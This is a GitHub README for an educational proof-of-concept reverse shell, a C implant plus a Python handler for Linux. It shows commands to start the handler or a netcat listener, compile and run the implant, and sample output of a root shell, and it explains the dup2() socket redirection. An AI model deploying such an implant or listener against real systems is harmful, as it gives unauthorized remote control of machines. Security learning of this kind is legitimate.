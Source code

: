 # Reverse-Shell
A proof-of-concept reverse shell (written in C) and its handler (written in Python) for learning and educational purpose. The reverse shell is intended for x86 & x64 Linux based systems. However, by [using a cross-compiler](https://jensd.be/1126/linux/cross-compiling-for-arm-or-aarch64-on-debian-or-ubuntu), it can also be repurposed for ARM64/aarch64 Linux systems as well 

# Usage
This PoC is made of two components, a handler and the implant/reverse shell code. 

First, we execute the handler to listen on a particular address and port. The implant is also compatible with netcat
```bash
python3 python-handler.py 127.0.0.1 4444
```
The implant is also compatible with netcat, so it can also be used to manage a reverse shell connection.
```bash
nc -nvlp 127.0.0.1 4444 -s 127.0.0.1
```

Then, we compile the implant/reverse shell code, and execute it by providing it with handler's listening address and port
```bash
gcc -o implant implant.c
./implant 127.0.0.1 4444
```
You'll see the connection on handler's end
```bash
[+] Handler Started On 127.0.0.1:4444
[+] Listening For Connections ...
[+] Connection Received From 127.0.0.1:58902
id
uid=0(root) gid=0(root) groups=0(root)
```

# Features
- Uses multithreaded handler to simultaneously handle receiving output from reverse shell, while sending commands from user
- Implant/reverse shell uses dup2() call to duplicate STDIN, STDOUT, STDERR across the network socket used to communicate with handler

# To Do
- [ ] Refined error handling on handler and implant's end
- [ ] Implement encryption for communication between handler and implant/reverse shell

# References
- https://pymotw.com/2/socket/tcp.html
- https://www.w3schools.com/python/python_try_except.asp
- https://docs.python.org/3/library/socket.html
- https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html
- https://www.idc-online.com/technical_references/pdfs/information_technology/Pairs_in_Python.pdf
- https://www.w3schools.com/python/python_user_input.asp
- https://www.geeksforgeeks.org/python-convert-string-to-bytes/
- https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/
